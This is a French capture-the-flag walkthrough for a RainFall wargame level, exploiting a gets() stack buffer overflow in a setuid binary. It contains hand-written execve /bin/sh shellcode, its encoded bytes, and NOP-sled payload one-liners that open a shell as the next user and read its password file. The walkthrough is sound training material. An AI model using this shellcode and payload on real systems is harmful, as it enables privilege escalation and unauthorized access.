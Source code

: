 # 01 - Stack buffer overflow 1

- On se connecte en tant que level1:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

```
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

```
level1@RainFall:~$ gdb level1
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
```

- Cette exercice est une introduction au [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow). Le programme nous prompt pour écrire dans sa stack sans limite. Il nous faudra:
    * Trouver à partir de combien de caractères l'adresse de retour de la fonction commence à être réécrite.
    * Faire un shellcode qui ouvre un terminal.
    * Trouver l'adresse de la zone mémoire qui contiendra notre shellcode.

- Pour trouver à partir de combien de caractères l'adresse de retour de la fonction commence à être réécrite, on pourrait par exemple utiliser `msf-pattern_create` et `msf-pattern_offset`:
```
$msf-pattern_create -l [pattern length] | ./level1
```

```
$msf-pattern_offset -l [pattern length] -q [overried EIP address]
```

- On trouve que l'adresse de retour est remplacée après le 76ème caractère, maintenant, faisons ce shellcode.
```asm
section .text
    global _start

_start:
    xor esi, esi
    xor edi, edi
    xor ecx, ecx
    xor edx, edx

    push edx                ; \0
    push 0x68732f2f         ; //sh
    push 0x6e69622f         ; /bin
    
    mov ebx, esp            ; Pointer vers /bin//sh
    xor eax, eax
    mov al, 0xb             ; execve
    int 0x80
```

```
$ nasm -f elf32 src.asm -o obj.o
```

```
$ objdump -d obj.o

test.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:   31 f6                   xor    %esi,%esi
   2:   31 ff                   xor    %edi,%edi
   4:   31 c9                   xor    %ecx,%ecx
   6:   31 d2                   xor    %edx,%edx
   8:   52                      push   %edx
   9:   68 2f 2f 73 68          push   $0x68732f2f
   e:   68 2f 62 69 6e          push   $0x6e69622f
  13:   89 e3                   mov    %esp,%ebx
  15:   31 c0                   xor    %eax,%eax
  17:   b0 0b                   mov    $0xb,%al
  19:   cd 80                   int    $0x80
```


- Ça nous donne un shellcode de 27 octets.
```
$ echo -ne "\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80" | wc -c
27
```


- Maintenant, il nous faut stocker notre shellcode quelque part dans la mémoire du programme, par exemple, en l'écrivant dans la zone mémoire remplie par `<gets@plt>`. Commençons par récupérer cette adresse mémoire.
```
level1@RainFall:~$ gdb level1
```

```
(gdb) b*0x08048495
```

```
(gdb) r < <(echo -n "123")
Starting program: /home/user/level1/level1 < <(echo -n "123")

Breakpoint 1, 0x08048495 in main ()
(gdb) x $eax
0xbffff6d0:     0x00333231
```


- On trouve `0xbffff6d0`, essayons:
```
(gdb) r < <(python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat)
...
whoami
level1
```


- Un terminal a bien été lancé, maintenant, profitons des [bits de permission setuid et setgid](https://en.wikipedia.org/wiki/Setuid) en faisant la même chose sans GDB.
```
level1@RainFall:~$ (python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat) | ./level1

Illegal instruction (core dumped)
```


- Ça ne fonctionne pas. En effet, l'environnement est légèrement différent entre un programme lancé avec/sans GDB. C'est pourquoi l'adresse exacte que nous ciblons n'est pas exactement la même. Il nous faut donc trouver la bonne adresse.

- En ajoutant des `nop` avant notre shellcode, on peut rendre la recherche de l'adresse exacte plus facile. On serait alors tenté de faire comme ceci:
```
python -c "print '\x90'*49 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\xd0\xf6\xff\xbf'"
```

- Mais n'oublions pas de garder de l'espace pour `push $0x68732f2f` et `push 0x6e69622f`:
```
level1@RainFall:~$ (python -c "print '\x90'*41 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*8 + '\xf0\xf6\xff\xbf'"; cat) | ./level1

whoami
level2

cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
